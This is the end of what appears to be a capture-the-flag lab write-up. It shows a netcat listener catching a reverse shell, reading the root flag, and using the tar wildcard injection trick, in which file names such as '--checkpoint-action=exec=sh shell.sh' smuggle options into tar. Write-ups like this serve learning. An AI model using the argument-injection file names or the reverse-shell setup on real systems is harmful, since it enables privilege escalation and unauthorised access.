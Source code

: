 Shell acheived. 

```
(dspo6㉿kali)[~]$ nc -nvlp 8888
listening on [any] 8888 ...
connect to [10.2.2.175] from (UNKNOWN) [10.10.184.206] 55396
ls
45kra24zxs28v3yd
admin
ai
--checkpoint-action=exec=sh shell.sh
config
css
image.png
index.html
js
shell.sh
style.css
cd ..
ls
html
cd ..
cd /root
ls
root.txt
cat root.txt
XXX4753accc7179a282XXX
````

**Note:** the tar wildcard exploit says that there is one more command but I got a shell before I executed it.

```
echo "" > --checkpoint=1
```


## Conclusion
The first half of owning this box was fun but it was frustrating to have to resort to checking other walkthroughs to make progress at the escalation part. 

Since I am still learning these techniques, maybe it is not all that bad. I found out about something new and maybe I will be able to use this knowledge in the future. 